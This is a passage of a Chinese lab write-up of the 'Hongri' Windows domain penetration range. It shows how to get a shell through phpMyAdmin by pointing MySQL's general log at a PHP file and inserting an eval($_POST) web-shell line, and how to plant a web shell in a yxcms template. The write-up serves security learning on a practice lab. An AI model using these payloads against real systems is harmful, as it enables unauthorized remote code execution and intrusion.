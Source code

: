 ![](https://img.l1uyun.one/红日靶场1-win域_image_6.png)

尝试在外面连接,连不上去
```bash
➜  workspace  mysql -h 192.168.71.79 -u root -p
Enter password:
```

扫目录发现存在phpmyadmin,phpstudy这玩意集成了phpmyadmin

![](https://img.l1uyun.one/红日靶场1-win域_image_7.png)

这里的secure_file_priv=NULL,不允许导入导出,所以不能直接写入shell

![](https://img.l1uyun.one/红日靶场1-win域_image_8.png)

再尝试一下通过日志Getshell的方法

SHOW VARIABLES LIKE '%general_log%'

![](https://img.l1uyun.one/红日靶场1-win域_image_9.png)

启用日志功能,然后修改日志文件路径,这里的绝对路径是在php探针里面泄露的
```bash
set global general_log = on;
set global general_log_file='C:/phpStudy/WWW/shell.php';
select "<?php @eval($_POST['123']);?>"
```

![](https://img.l1uyun.one/红日靶场1-win域_image_10.png)

使用蚁剑连接,拿到shell

![](https://img.l1uyun.one/红日靶场1-win域_image_11.png)

### yxcms后台修改模板Getshell
以学习为主,phpmyadmin拿到shell之后,再看看有没有其他的拿shell的方法吧

查看路径,发现有个yxcms,进去看看

![](https://img.l1uyun.one/红日靶场1-win域_image_12.png)

这都不用搜索了,前台模板这个位置大概率能执行php代码

![](https://img.l1uyun.one/红日靶场1-win域_image_13.png)

找到这个layout.php,这个文件是每个页面都需要包含的,所以在这里写入webshell

![](https://img.l1uyun.one/红日靶场1-win域_image_14.png)

可以连接

![](https://img.l1uyun.one/红日靶场1-win域_image_15.png)

这个cms里面也有sql执行,就不看了
## 内网渗透
### 信息收集
